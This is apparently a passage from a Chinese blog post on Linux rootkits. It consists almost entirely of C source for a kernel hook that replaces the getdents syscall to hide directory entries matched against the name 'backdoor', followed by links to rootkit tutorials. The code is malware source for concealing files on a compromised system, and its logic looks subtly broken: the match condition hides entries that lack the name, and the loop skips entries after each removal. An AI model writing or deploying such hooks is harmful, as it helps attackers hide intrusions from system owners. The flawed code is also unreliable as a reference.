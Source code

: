 ```c
asmlinkage long my_getdents(unsigned int fd, struct linux_dirent __user *dirp,
                unsigned int count){
    struct linux_dirent *kdirp,*kdirp2;

    long value,tlen;
    long len = 0;
    value = (*old_getdents) (fd, dirp, count);
    tlen = value;

    kdirp = (struct linux_dirent *) kmalloc(tlen, GFP_KERNEL);
    kdirp2 = kdirp;
    copy_from_user(kdirp, dirp, tlen);

    while(tlen > 0)
    {
        len = dirp->d_reclen;
        tlen = tlen - len;
        printk("%s\n",dirp->d_name);
        
        if(strstr(dirp->d_name,"backdoor") == NULL)
        {
            printk("find file\n");
            memmove(dirp, (char *) dirp + dirp->d_reclen, tlen);
            value = value - len;
            printk(KERN_INFO "hide successful.\n");
        }
        if(tlen)
            dirp = (struct linux_dirent *) ((char *)dirp + dirp->d_reclen);
    }
    printk(KERN_INFO "finished hacked_getdents.\n");
    return value;
}
```

## 参考文献

[1] [编写第一个LInux内核模块](<http://blog.topspeedsnail.com/archives/10053>)

[2] [Linux rootkit系列](<https://www.freebuf.com/articles/system/54263.html>)（一共三篇，两个作者，对于我理解相关内容有很打帮助)

[3] [Linux Rootkits](<https://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html?view=sidebar>)（一样有三篇)


